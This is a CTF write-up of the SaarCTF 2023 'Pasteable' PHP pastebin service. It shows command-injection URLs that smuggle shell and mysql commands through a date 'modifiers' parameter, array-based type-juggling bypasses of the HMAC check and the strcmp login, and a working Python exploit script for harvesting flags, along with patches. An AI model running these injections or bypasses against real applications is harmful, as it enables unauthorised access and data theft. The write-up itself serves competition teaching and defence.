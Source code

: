 ```yaml
---
layout: post
title:  "Pasteable - A/D Web Service"
date:   2023-11-20 12:28:05 +0100
categories: writeups
--- 
```


```
Challenge: Pasteable
Authors: 0xMatte & Shotokhan
Description: Abusing hardcoded secrets and type juggling
CTF: SaarCTF 2023
Category: Web
```

The service listens on port 8080, and is run by a Nginx server. It is a pastebin, and uses a challenge-based authentication.

## Hardcoded secrets
One of the first things to note is the presence of hardcoded information used in multiple points throughout the service. This information is in `/func/config.php`:

```php
<?php

//=====================================================================
// variables and configuration:
//=====================================================================

// CIPHER CONFIGURATION
$CIPHER_SECRET = "0123456789ABCDEF";
$CIPHER_RING = "AES-128-CTR";

// APP CONFIGURATION
$APP_SECRET = "0123456789ABCDEF";
$APP_HOST = "linux";
$APP_PATH = dirname(__FILE__)."/../";

// DB CONFIGURATION
$DB_HOST = null;
$DB_USER = "www-data";
$DB_PASS = null;
$DB_NAME = "pasteable";

$MYSQLI = new mysqli($DB_HOST, $DB_USER, $DB_PASS, $DB_NAME) or die($MYSQLI->error);
if ($MYSQLI->connect_errno)
    die("Failed to connect to MySQL: " . $MYSQLI->connect_error);

//=====================================================================

```

### Example impact: RCE
Failing to modify this configuration makes the service vulnerable in many points. For example, in `/func/ntp.php`, it's possible to trigger a RCE:

```php
<?php

// Network-Time-Protocol API

// variables and configs
require("../func/config.php");

// ensure that requester knows super-duper-secret
$additional_time_formatter = (isset($_GET['modifiers'])) ? $_GET['modifiers'] : "";
$caller_nonce = (isset($_GET['nonce'])) ? $_GET['nonce'] : "";
$caller_checksum = (isset($_GET['checksum'])) ? $_GET['checksum'] : "";

if(isset($_GET['modifiers'])) {
    $nonce_hash = hash_hmac('sha256', $caller_nonce, $APP_SECRET);
    $checksum = hash_hmac('sha256', $additional_time_formatter, $nonce_hash);

    // if the checksum is wrong, the requester is a bad guy who
    // doesn't know the secret
    if($checksum !== $caller_checksum) {
        die("ERROR: Checksum comparison has failed!");
    }
}
// print current time
$time_command = ($APP_HOST === 'win') ? "date /t && time /t" : "date";
$requested_time = `$time_command $additional_time_formatter`;
echo preg_replace('~[\r\n]+~', '', $requested_time);
```

The RCE can be triggered using the date modifiers; the hardcoded `APP_SECRET` can be used to generate the required checksum. For example, to inject `; echo lol`:

```
http://<team_ip>:8080/func/ntp.php?checksum=502bdde984cd38d2d55530f400e9d85803fca100e8fc5c5d76692f009d070e2c&modifiers=;%20echo%20lol
```

To inject a query to `mysql`, such as `; mysql -u www-data pasteable -e 'SELECT paste_id FROM user_pastes;'`

```
http://<team_ip>:8080/func/ntp.php?checksum=270553c4b387caa5f1845c5f5a49d36690dffe325907bab51541fd91d6fcaa88&modifiers=%3B%20mysql%20%2Du%20www%2Ddata%20pasteable%20%2De%20%27SELECT%20paste%5Fid%20FROM%20user%5Fpastes%3B%27
```

Anyway, the attack chain to get the actual flags from this is pretty complex, since pastebins are stored encrypted, and teams started to patch the hardcoded secrets after a few hours.

> Note: **there is another way to exploit this without knowing the `APP_SECRET`**: by passing the nonce as array, the `$nonce_hash` variable will be `NULL` and will not depend anymore upon the `APP_SECRET`, so the checksum will only depend upon the `$additional_time_formatter`. This exploit works in the PHP version installed on the vulnbox. To patch it, we must validate that the nonce is a string.

## Login bypass with type juggling
As previously said, the authentication is challenge-based. Anyway, it's possible to bypass it, thanks to PHP being a magic language. In fact, let's look at `/func/login.php`, only the relevant part:

```php
if(!isset($_POST['username']) || !isset($_POST['solution'])){
    header('HTTP/1.0 403 Forbidden');
    die("Invalid request");
}

if(!isset($_SESSION['challenge']) || !(strcmp($_POST['solution'], $_SESSION['challenge']) == 0)){
    header('HTTP/1.0 403 Forbidden');
    die("No valid challenge found");
}
```

By passing `$_POST['solution']` as an array, it's possible to make the call to `strcmp` return `NULL`, allowing the attacker to bypass the authentication without decrypting the challenge. In fact, `NULL` is equal to 0 if the comparison is loose (not strict).

### Patch
To patch it, we need to make sure that the `solution` parameter is a string, or by using a strict comparison:

1. Validating the type

```php
if(!isset($_POST['username']) || !isset($_POST['solution']) || !is_string($_POST['solution'])) {
    header('HTTP/1.0 403 Forbidden');
    die("Invalid request");
}
```

2. Using a strict comparison

```php
if(!isset($_SESSION['challenge']) || !(strcmp($_POST['solution'], $_SESSION['challenge']) === 0)){
    header('HTTP/1.0 403 Forbidden');
    die("No valid challenge found");
}
```

### Exploit
Here is the exploit script in Python, for `DestructiveFarm`, that we used during the A/D CTF:

```python
#!/usr/bin/env python3
from concurrent.futures import ThreadPoolExecutor
import requests


def get_flag(ip, usernames):
    try:
        for username in usernames:
            s = requests.Session()
            s.post(f'http://{ip}:8080/func/challenge.php', data={'username': username}, timeout=5)
            r = s.post(f'http://{ip}:8080/func/login.php', data={'username': username, 'solution[]': '0'}, timeout=5)

            if r.status_code == 200:
                print(s.get(f'http://{ip}:8080/admin/home/').text, flush=True)
    except KeyboardInterrupt:
        exit()
    except:
        pass


data = requests.get('https://scoreboard.ctf.saarland/attack.json').json()
# ids = {'IP': {'TICK_NUM': 'USERNAME'}} ; It only contains values for flags that are still valid.
ids = data['flag_ids']['Pasteable']

with ThreadPoolExecutor(max_workers=10) as p:
    for ip in ids.keys():
        usernames = ids[ip].values()
        p.submit(get_flag, ip, usernames)
    
```


